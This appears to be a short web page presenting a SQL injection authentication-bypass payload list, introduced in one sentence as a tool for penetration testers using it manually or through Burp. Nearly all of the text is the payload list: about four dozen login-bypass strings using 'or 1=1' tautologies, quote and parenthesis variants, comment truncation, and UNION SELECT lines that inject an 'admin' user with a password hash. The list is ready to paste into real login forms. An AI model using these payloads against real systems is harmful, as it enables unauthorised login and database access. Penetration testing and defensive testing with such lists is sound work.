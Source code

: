 This list can be used by penetration testers when testing for SQL injection authentication bypass.A penetration tester can use it manually or through burp in order to automate the process.
						
			
			or 1=1
			or 1=1--
			or 1=1#
			or 1=1/*
			admin' --
			admin' #
			admin'/*
			admin' or '1'='1
			admin' or '1'='1'--
			admin' or '1'='1'#
			admin' or '1'='1'/*
			admin'or 1=1 or ''='
			admin' or 1=1
			admin' or 1=1--
			admin' or 1=1#
			admin' or 1=1/*
			admin') or ('1'='1
			admin') or ('1'='1'--
			admin') or ('1'='1'#
			admin') or ('1'='1'/*
			admin') or '1'='1
			admin') or '1'='1'--
			admin') or '1'='1'#
			admin') or '1'='1'/*
			1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
			admin" --
			admin" #
			admin"/*
			admin" or "1"="1
			admin" or "1"="1"--
			admin" or "1"="1"#
			admin" or "1"="1"/*
			admin"or 1=1 or ""="
			admin" or 1=1
			admin" or 1=1--
			admin" or 1=1#
			admin" or 1=1/*
			admin") or ("1"="1
			admin") or ("1"="1"--
			admin") or ("1"="1"#
			admin") or ("1"="1"/*
			admin") or "1"="1
			admin") or "1"="1"--
			admin") or "1"="1"#
			admin") or "1"="1"/*
			1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
		

